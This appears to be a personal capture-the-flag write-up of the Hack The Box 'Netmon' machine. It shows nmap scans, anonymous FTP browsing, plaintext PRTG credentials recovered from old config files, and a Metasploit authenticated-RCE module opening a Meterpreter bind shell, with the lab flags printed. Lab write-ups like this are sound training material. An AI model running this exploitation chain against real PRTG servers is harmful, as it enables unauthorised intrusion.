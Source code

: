 ![[Netmon.png]]

Netmon serves as a brilliant example of being very intentional and simple when looking for vectors to enumerate and services to exploit. I spent time going down a rabbit hole, albeit a shallow one, but the lesson was learned. It's also important to take very copious notes in these reports here, so from now on these will be very fleshed out.

### Reconnaissance
```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-04 15:39 EDT
Nmap scan report for 10.10.10.152
Host is up (0.12s latency).
Not shown: 52259 closed tcp ports (reset), 13263 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT      STATE SERVICE      VERSION
21/tcp    open  ftp          Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 02-03-19  12:18AM                 1024 .rnd
| 02-25-19  10:15PM       <DIR>          inetpub
| 07-16-16  09:18AM       <DIR>          PerfLogs
| 02-25-19  10:56PM       <DIR>          Program Files
| 02-03-19  12:28AM       <DIR>          Program Files (x86)
| 02-03-19  08:08AM       <DIR>          Users
|_11-10-23  10:20AM       <DIR>          Windows
| ftp-syst: 
|_  SYST: Windows_NT
80/tcp    open  http         Indy httpd 18.1.37.13946 (Paessler PRTG bandwidth monitor)
| http-title: Welcome | PRTG Network Monitor (NETMON)
|_Requested resource was /index.htm
|_http-server-header: PRTG/18.1.37.13946
|_http-trane-info: Problem with XML parsing of /evox/about
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
5985/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
47001/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
49664/tcp open  msrpc        Microsoft Windows RPC
49665/tcp open  msrpc        Microsoft Windows RPC
49666/tcp open  msrpc        Microsoft Windows RPC
49667/tcp open  msrpc        Microsoft Windows RPC
49668/tcp open  msrpc        Microsoft Windows RPC
49669/tcp open  msrpc        Microsoft Windows RPC
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb-security-mode: 
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-time: 
|   date: 2024-09-04T19:41:21
|_  start_date: 2024-09-04T19:38:24

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 120.10 seconds

```

The scan gives us quite a bit. We've got access to FTP shares, a PRTG Monitor version 18.1.37.13946, and SMB. In hindsight, it's very simple and quite concise, so the trained eye merely comes from practice.

### Service Enumeration

Take the path of least resistance. Be water. Let's fucking go, yeah? Starting with FTP is the sensical choice, with anonymous login allowed, we're privy to quite a bit.

Initially, I'd completely skipped this vector... Dunno why.  `ftp anonymous@10.10.10.152` will yield access. Now, from now on, where applicable, `ls -la` takes precedence. This shows hidden directories, if any. 

```
┌──(root㉿kali)-[/home/li0t]
└─# ftp anonymous@10.10.10.152
Connected to 10.10.10.152.
220 Microsoft FTP Service
331 Anonymous access allowed, send identity (e-mail name) as password.
Password: 
230 User logged in.
Remote system type is Windows_NT.
ftp> ls -la
229 Entering Extended Passive Mode (|||49858|)
150 Opening ASCII mode data connection.
11-20-16  10:46PM       <DIR>          $RECYCLE.BIN
02-03-19  12:18AM                 1024 .rnd
11-20-16  09:59PM               389408 bootmgr
07-16-16  09:10AM                    1 BOOTNXT
02-03-19  08:05AM       <DIR>          Documents and Settings
02-25-19  10:15PM       <DIR>          inetpub
09-06-24  05:49AM            738197504 pagefile.sys
07-16-16  09:18AM       <DIR>          PerfLogs
02-25-19  10:56PM       <DIR>          Program Files
02-03-19  12:28AM       <DIR>          Program Files (x86)
12-15-21  10:40AM       <DIR>          ProgramData
02-03-19  08:05AM       <DIR>          Recovery
02-03-19  08:04AM       <DIR>          System Volume Information
02-03-19  08:08AM       <DIR>          Users
11-10-23  10:20AM       <DIR>          Windows
226 Transfer complete.

```

We get a lot here, but we don't know what it all means yet. Easiest path leads us down through public users to get our user flag.

```
ftp> more user.txt
0526c34b6f2df988e87b2d8d1abc7b4b
```

Theres nothing much else here in the `/Users` directory, and we cannot access administrator level ones without higher privileges. We'll come back here soon. Let's see what the web server has to offer.

![[Screenshot 2024-09-04 at 3.45.47 PM.png]]

Navigating to the website, we're met with a portal for this PRTG Network Monitor, and upon some research looking for version information and credentials, we find this interesting tidbits.

![[Screenshot 2024-09-06 at 6.35.25 AM.png]]
![[Screenshot 2024-09-06 at 6.29.25 AM.png]]
![[Screenshot 2024-09-06 at 6.14.17 AM.png]]

So, it looks like this version of the software keeps plaintext credentials in an old configuration file, and given the path in the photo, it looks like we can access through FTP. Navigating to `/ProgramData/Paessler/PRTG\ Network\ Monitor/` gives us access to the old configuration files, where we can find the credentials needed.

![[Screenshot 2024-09-06 at 6.28.55 AM.png]]

### Initial Access

Now, once found, we can use searchsploit to check if there's a MSF module for the RCE referenced above. 

```
┌──(root㉿kali)-[/home/li0t]
└─# searchsploit PRTG
------------------------------------------- ---------------------------------
 Exploit Title                             |  Path
------------------------------------------- ---------------------------------
PRTG Network Monitor 18.2.38 - (Authentica | windows/webapps/46527.sh
PRTG Network Monitor 20.4.63.1412 - 'maps' | windows/webapps/49156.txt
PRTG Network Monitor < 18.1.39.1648 - Stac | windows_x86/dos/44500.py
PRTG Traffic Grapher 6.2.1 - 'url' Cross-S | java/webapps/34108.txt
------------------------------------------- --------------------------------
```

Looks like we're in business. I'm going to use Metasploit for now because I'm pressed on time, but I'll come back through (for all MSF ones) and do it manually as well.

```
msf6 > search PRTG

Matching Modules
================

   #  Name                                                        Disclosure Date  Rank       Check  Description
   -  ----                                                        ---------------  ----       -----  -----------
   0  exploit/windows/http/prtg_authenticated_rce_cve_2023_32781  2023-08-09       excellent  Yes    PRTG CVE-2023-32781 Authenticated RCE
   1    \_ target: Windows_Fetch                                  .                .          .      .
   2    \_ target: Windows_CMDStager                              .                .          .      .
   3  exploit/windows/http/prtg_authenticated_rce                 2018-06-25       excellent  Yes    PRTG Network Monitor Authenticated RCE

```

Looks like 3 is what we want. I'll also set to a `bind_tcp` payload, as reverse has been throwing errors for me. Also, the box was published in 2019, and seeing as the password houses 2018, we can give both a shot for variance.

![[Screenshot 2024-09-06 at 6.40.30 AM.png]]

Let it rip, bear.

```
msf6 exploit(windows/http/prtg_authenticated_rce) > run

[+] Successfully logged in with provided credentials
[+] Created malicious notification (objid=2018)
[+] Triggered malicious notification
[+] Deleted malicious notification
[*] Waiting for payload execution.. (30 sec. max)
[*] Started bind TCP handler against 10.10.10.152:4444
[*] Sending stage (176198 bytes) to 10.10.10.152
[*] Meterpreter session 1 opened (10.10.14.3:37941 -> 10.10.10.152:4444) at 2024-09-06 06:40:53 -0400

meterpreter > 
```

### Post-Exploitation

Navigate to the administrator file that we didn't have access to before, and you'll get your flag.

```
meterpreter > cat root.txt 
45d31e16cd35bfb0311d0b7f3207e644
```
#easy #windows #msfconsole 
